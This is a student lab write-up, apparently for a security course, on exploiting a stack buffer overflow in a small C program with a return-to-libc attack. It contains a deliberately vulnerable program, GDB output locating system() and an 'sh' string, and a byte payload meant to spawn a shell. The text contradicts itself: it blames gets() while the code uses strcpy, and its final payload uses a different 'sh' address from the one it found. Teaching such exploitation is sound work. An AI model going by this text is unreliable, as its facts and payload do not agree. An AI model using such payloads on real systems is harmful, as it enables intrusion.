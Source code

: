 
#Task 1
###Task 1.1 Vulnerable Program (5 points)
The initial task was to write a C/C++ program that contains a stack buffer overflow vulnerability. ```overflowable.c``` detailed below contains a vulnerability since it utilizes the vulnerable and depreceated ```gets()``` command.  This command does not check the size of the input against the size of what the buffer is.
######overflowable.c

```c
#include <stdio.h>
#include <strings.h>

int main(int argc, char *argv[]){
    char buffer[8];
    strcpy(buffer,argv[1]);
};
```
#####Compile Instructions
```sh
$ gcc overflowable.c -o overflowable -fno-stack-protector
```

####Task 1.2 Stack Layout (25 points)
Note: the stack layout should contain the following contents:
- Stack layout (5 points)
- High and low address of stack, stack grows direction (5 points)
- Size of each part on the stack (5 points)
- Content of each part of the stack (5 points)
- Overflowed area of the stack (5 points)

#####Prior to overflow:

![http://imgur.com/a/JoZV8](http://i.imgur.com/BxQlUpF.jpg)

#####After overflow: (to show overflowed area of the stack)

![http://imgur.com/a/JoZV8](http://i.imgur.com/h3S1iXe.jpg)

###Task 1.3 Exploiting Explanation (10 points)

To exploit the stack we must first figure out how to cause the program to crash.  It is easy to do this by inputing the following test procedures:

![crashing the program]()

After causing the program to crash, you must then try to find what the proper input to completely overide the return address.  I accomplished this by adding ```0``` onto the tail of my input.  The result from running the program should be something like ```Program received signal SIGSEGV, Segmentation fault. 0x30303030 in ?? ()```.  The reason that we are looking for ```0x30303030``` is the in ```ASCII``` the hex for ```0``` is ```30``` and we are looking for all 4.  The Steps below show how to accomplish this:

![crafting your input]()

To exploit we want the system to open a shell.  To do this we must develop shell code that will place the code we are trying to execute into the buffer we are overflowing and overwrite the return address so it points back into the buffer.  

To do this we must locate where the ```system``` call resides on our machine.

```
(gdb) b main
Breakpoint 1 at 0x8048420
(gdb) r
Starting program: /home/ubuntu/CS6035/project1/overflowable 

Breakpoint 1, 0x08048420 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e56190 <__libc_system>
(gdb) 
```

When we issue the ```(gdb) print system``` command when the program is running we are given ```0xb7e56190``` as the location for the system command.  

To locate the location of a ```sh``` string to inject we search for ```sh``` in memory.  We dump the files that have symbols from out program and do a search across their memory by ```(gdb) find addr1,addr2,"sh"```

```
(gdb) info files
Symbols from "/home/ubuntu/CS6035/project1/overflowable".
Unix child process:
	Using the running image of child process 2771.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/ubuntu/CS6035/project1/overflowable', file type elf32-i386.
	Entry point: 0x8048320
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804821c is .dynsym
	0x0804821c - 0x08048268 is .dynstr
	0x08048268 - 0x08048272 is .gnu.version
	0x08048274 - 0x08048294 is .gnu.version_r
	0x08048294 - 0x0804829c is .rel.dyn
	0x0804829c - 0x080482b4 is .rel.plt
	0x080482b4 - 0x080482d7 is .init
	0x080482e0 - 0x08048320 is .plt
	0x08048320 - 0x080484b2 is .text
	0x080484b4 - 0x080484c8 is .fini
	0x080484c8 - 0x080484d0 is .rodata
	0x080484d0 - 0x080484fc is .eh_frame_hdr
	0x080484fc - 0x080485ac is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array
	0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a018 is .got.plt
	0x0804a018 - 0x0804a020 is .data
	0x0804a020 - 0x0804a024 is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so.2
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so.2
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so.2
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so.2
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so.2
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so.2
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so.2
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so.2
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so.2
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so.2
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so.2
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so.2
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so.2
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so.2
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so.2
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so.2
	0xb7ffefec - 0xb7ffeff8 is .got in /lib/ld-linux.so.2
	0xb7fff000 - 0xb7fff024 is .got.plt in /lib/ld-linux.so.2
	0xb7fff040 - 0xb7fff878 is .data in /lib/ld-linux.so.2
---Type <return> to continue, or q <return> to quit---
	0xb7fff878 - 0xb7fff938 is .bss in /lib/ld-linux.so.2
	0xb7e16174 - 0xb7e16198 is .note.gnu.build-id in /lib/i386-linux-gnu/libc.so.6
	0xb7e16198 - 0xb7e161b8 is .note.ABI-tag in /lib/i386-linux-gnu/libc.so.6
	0xb7e161b8 - 0xb7e19ec8 is .gnu.hash in /lib/i386-linux-gnu/libc.so.6
	0xb7e19ec8 - 0xb7e23438 is .dynsym in /lib/i386-linux-gnu/libc.so.6
	0xb7e23438 - 0xb7e2915e is .dynstr in /lib/i386-linux-gnu/libc.so.6
	0xb7e2915e - 0xb7e2a40c is .gnu.version in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a40c - 0xb7e2a898 is .gnu.version_d in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a898 - 0xb7e2a8d8 is .gnu.version_r in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a8d8 - 0xb7e2d2e8 is .rel.dyn in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d2e8 - 0xb7e2d348 is .rel.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d350 - 0xb7e2d420 is .plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d420 - 0xb7f5eb6e is .text in /lib/i386-linux-gnu/libc.so.6
	0xb7f5eb70 - 0xb7f5fafb is __libc_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fb00 - 0xb7f5fcfe is __libc_thread_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fd00 - 0xb7f81754 is .rodata in /lib/i386-linux-gnu/libc.so.6
	0xb7f81754 - 0xb7f81767 is .interp in /lib/i386-linux-gnu/libc.so.6
	0xb7f81768 - 0xb7f88c0c is .eh_frame_hdr in /lib/i386-linux-gnu/libc.so.6
	0xb7f88c0c - 0xb7fb9f68 is .eh_frame in /lib/i386-linux-gnu/libc.so.6
	0xb7fb9f68 - 0xb7fba3c6 is .gcc_except_table in /lib/i386-linux-gnu/libc.so.6
	0xb7fba3c8 - 0xb7fbd928 is .hash in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1d4 - 0xb7fbe1dc is .tdata in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe220 is .tbss in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe1e8 is .init_array in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1e8 - 0xb7fbe260 is __libc_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe260 - 0xb7fbe264 is __libc_atexit in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe264 - 0xb7fbe274 is __libc_thread_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe280 - 0xb7fbfda8 is .data.rel.ro in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfda8 - 0xb7fbfe98 is .dynamic in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfe98 - 0xb7fbfff4 is .got in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0000 - 0xb7fc003c is .got.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0040 - 0xb7fc0ebc is .data in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0ec0 - 0xb7fc3a7c is .bss in /lib/i386-linux-gnu/libc.so.6
(gdb) Quit
(gdb) find 0x08048154,0xb7fc3a7c,'sh'
Invalid character constant.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde7f0,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde7f0, 0xb7fff938, "sh"
0xb7ff7e5c <__PRETTY_FUNCTION__.9595+12>
0xb7ffde11
0xb7ffee11 <_rtld_global_ro+241>
3 patterns found.
```

3 patterns were found so we use the ```gdb x/e`` command to investigate those memory locations to see what is contained

```
(gdb) x/s 0xb7ffde11
0xb7ffde11:	"sh"
```

The ```sh``` has been found!

So our two important addresses are 

- ```sh``` at ```0xb7ffde11```
- ```system``` at ```0xb7e56190```

To craft the shellcode, add these commands in place of our ```0000``` that were on the original overflow string so it looks as follows:


```12345678123456781234``` + the shellcode for system() + ```\xb7\xe5\x61\x90``` + ```a dumb return address``` + the location for ```sh``` ```\xb7\xff\xde\x11```

But do to the way these are pushed onto the stack, we need to reverse them and it becomes:

```12345678123456781234``` + the shellcode for system() +```\x90\x61\xe5\xb7``` + ```a dumb return address``` + the location for ```sh``` ```\x11\xde\xff\xb7``` 


or in total ```12345678123456781234\x90\x61\xe5\xb7RETA\xf5\x40\xf7\xb7```

# Task 2:

###Task 2.1 Buffer overflow detection data craft and overflow proof in GDB (10 points)
###Task 2.2. Locate system() address in GDB (10 points)
###Task 2.3. Locate /bin/sh address in GDB(10 points)
###Task 2.4. Correct exploit payload in data.txt and being able to open the shell in terminal(30
points)

